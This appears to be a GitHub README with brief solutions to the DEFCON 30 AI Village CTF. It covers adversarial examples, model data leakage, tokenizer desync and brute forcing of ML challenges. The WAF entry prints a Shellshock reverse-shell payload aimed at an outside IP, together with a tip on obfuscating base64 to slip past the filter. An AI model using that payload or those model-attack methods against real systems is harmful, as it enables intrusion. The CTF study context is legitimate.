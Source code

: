 # AI-Village-CTF-DEFCON30-solution
Solution for the AI-themed CTF held as part of DEFCON 30 using the Kaggle platform (https://www.kaggle.com/competitions/ai-village-ctf/leaderboard).

- Hotdog: Submitted a picture of a hotdog.

- Math_1-4: Brute forced by guessing the upper and lower bounds of the expected solutions.

- Honor Student: Solved via hill-climbing by incrementally adding noise.

- Wifi: Obtained the flag by using argmin(embeddings) as character indexes.

- Bad to Good: Found that negative demerits were not properly handled and that did the trick.

- Baseball: Solved via hill-climbing after guessing the distribution for that player through grid search.

- Inference: The hint in the challenge description gave it away. Since I knew the number of characters just had to try difference combinations until D3FC0N showed up as accepted.

- Leakage: Passed the username as input to the LSTM which returned the password.

- Forensics: The flag was in the model itself which could be accessed via model.summary().

- Token: This was a tokenizer desync attack. Replacing BLANK was the solution.

- Deepfake: Submitted random videos from YouTube until found one that was accepted as valid.

- Murderbots: Identified power and temperature values via anomaly detection (deviations from the mean) that were likely human related. That gave me 9 indexes and just had to guess the last one manually.

- Hotterdog/Theft/Salt: Generated adversarial examples with the provided models using FGS.

- Crop_1: Generated the solution image via hill-climbing:
<img src="https://blogger.googleusercontent.com/img/a/AVvXsEha2PLS7PvGRFfO8LIFnw_1hCSNkud-gLUvc1caZS7OaKj_erR-8wRcoPWXCVuSDmHmPlzg3BSV6x-kthjUSSO1XBPmvnnVjDdtlryOGgA4eMgUB6oaSUWOy1aryvI8Dwj6porbcXAskjTwXclhemZR9HwHNLPfCbeJFcjXxLtXYBgM6VOBejQn7PYC">

- WAF: The hints led me to a well known exploit used by Crypto mining campaigns. Then it was all trial and error to figure out which portions were deemed as malicious. The final step involved obfuscating the b64 with spaces.
() { :;}; /bin/bash -c "bash -i >& /dev/tcp/27.1.1.1/9000 0<&1

- Secret Sloth: Could not solve this one, although I was pretty close and located the exact place where the flag was and decoded some of the letters. It could have been solved via brute force as some participants shared later :(
<img src="https://blogger.googleusercontent.com/img/a/AVvXsEjvuhYcRXAWZOQzvSJ9dQYzuCLqhieYlMU7ANajhtir7jcksbbaYZ1hObPPgqdgIYWuz_cOwe-2HgI4ue61tNGcibZo6fmI7UlwEvuYtspdC4dPhazRbpeXSx_kgR35qdvDZdZzRgiq1wzbQZY1hQXDjdQIUZcNpmBvj0W07tpu-CnuH53JIBJUR9rC">
